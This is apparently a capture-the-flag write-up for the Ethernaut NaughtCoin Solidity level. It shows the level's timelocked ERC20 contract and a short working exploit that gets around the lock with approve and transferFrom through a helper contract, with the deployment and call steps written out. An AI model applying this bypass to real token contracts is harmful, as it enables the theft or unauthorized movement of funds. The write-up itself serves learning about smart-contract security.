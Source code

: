 <img src="naughtcoin.png" alt="naughtcoin" />


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/token/ERC20/IERC20.sol";

contract NautTransfer {
    IERC20 nautContract;

    constructor(address _nautAddress) public {
        nautContract = IERC20(_nautAddress);
    }

    function WithdrawAll(address _sender, uint256 amount) external {
        nautContract.transferFrom(_sender, address(this), amount);
    }

}
```
lockTokens modifier with timeLock of 365 days is used to prevent transfer by the minter i.e player playing the level. But there is another function approve which can be used to allocate the allowances to other address to let them transfer the allowable amount themselves from the transferFrom function. To know more about the ERC20 contract please read different articles or view the ERC20.sol from openzepplin.

1. So to transfer the amount to another address with timelock, first we can deploy the above NautTransfer contract with the NaughtCoin contract address as _nautAddress.

2. Approve the amount of INITIAL_SUPPLY or more in this case i used amount of 10000000 * 10**18 to approve to the NautTransfer contract address.

```
const nautTransferAddress = "0x............................."
await contract.approve(nautTransferAddress, toWei('10000000'));
```

3. Then call WithdrawAll function from Remix IDE or other setup you have with the player address i.e. address of us and amount as the total supply of the token the player has i.e. 1000000 * 10**18

4. Check the player balance and finally we transfer all the balance of the player to the contract successfully. Check the player balance to confirm.

```
await contract.balanceOf(player);
```



